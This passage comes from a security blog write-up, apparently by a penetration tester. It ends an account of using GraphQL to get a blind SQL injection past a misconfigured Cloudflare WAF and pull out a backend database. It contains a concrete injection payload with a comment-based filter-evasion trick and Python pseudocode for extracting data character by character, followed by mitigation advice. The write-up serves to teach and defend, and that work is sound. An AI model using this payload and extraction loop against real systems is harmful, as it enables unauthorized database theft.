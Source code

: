 <p>
It worked!
</p>

#### Full Speed Ahead
<p>
To make the table retrieving process easier, I wrote a script in Python to automate the process. The pseudocode of the script
goes something like this:
</p>

{% highlight python %}
# assert names of columns and table name is known
alphabet = [a,b,c,...,y,z]
valueRetrieved = ""
numOfCharsFound = 0
for rowNumber in [0,20]:
  for columnName in columns:
    for character in alphabet:
      sqlInjection = '''
        a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('{character} + {valueRetrieved}'=(SELECT(right((SELECT {columnName}/*", "*/FROM tableName LIMIT 1 OFFSET {rowNumber}),{numOfCharsFound}+1))))AND('a'='a
      '''

      inject sqlInjection in POST request body
      if response.body == "OK":
        valueRetrieved = character + valueRetrieved
        recurse function with numOfCharsFound++
      elif response.body == "NOT OK":
        continue with next character in alphabet

      return valueRetrieved
{% endhighlight %}


And this is how I exploited GraphQL to craft an SQL injection that bypassed a misconfigured Cloudflare WAF instance
and was able to retrieve the whole database in the back end. As I mentioned in the beginning, this combination of bypassing techniques do not work against a properly-configured Cloudflare WAF.


#### Mitigation

The safest way to mitigate SQL injections on your databases is prepared statements. These come in most database interaction libraries for most languages. You can find a full list of ways to mitigate SQL injections at [OWASP][owasp-sql].
<p>
I mentioned this last time, but it is my opinion that the shift-left approach is of the greatest importance when developing software.
You can spend lots of money and time configuring IDSs, WAFs and controls in general, but the most important thing is for developers 
to give the appropriate attention to the security of the applications they are developing (or even better have a penetration tester have a go at it).
</p>
<p>
PS: Don't forget to sanitize your users' input.
</p>

[cf-hof]: https://hackerone.com/gskourou
[owasp-sql]:    https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
